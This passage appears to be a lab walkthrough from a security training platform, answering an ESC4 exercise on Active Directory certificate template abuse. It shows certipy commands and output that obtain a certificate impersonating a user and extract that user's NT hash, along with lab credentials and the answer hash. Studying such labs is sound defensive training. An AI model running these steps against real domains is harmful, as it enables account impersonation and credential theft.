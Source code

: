 Answer: `EnrolleeSuppliesSubject`

## ESC4

### Question 2

#### "Abuse the ESC4 misconfiguration and submit Molly's NT Hash."

From the previous question, students have abused the `ESC4` to render the `ESC4` template vulnerable to `ESC1`, therefore, to abuse it, students need to use the `req` command of `certipy`, specifying the template `ESC4` for the `-template` option and the `UPN` `Molly` for the `-upn` option; students will attain a `PFX` certificate for the `Molly` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Molly
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Molly

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 69
[*] Got certificate with UPN 'Molly'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'molly.pfx'
```

At last, utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Molly` and `Un-PAC-the-hash` within it; students will attain the NT hash `b4d7acc4ed8077f60a163499df9bc779`:

Code: shell

```shell
certipy auth -pfx molly.pfx -domain lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx molly.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: molly@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'molly.ccache'
[*] Trying to retrieve NT hash for 'molly'
[*] Got hash for 'molly@lab.local': aad3b435b51404eeaad3b435b51404ee:b4d7acc4ed8077f60a163499df9bc779
```
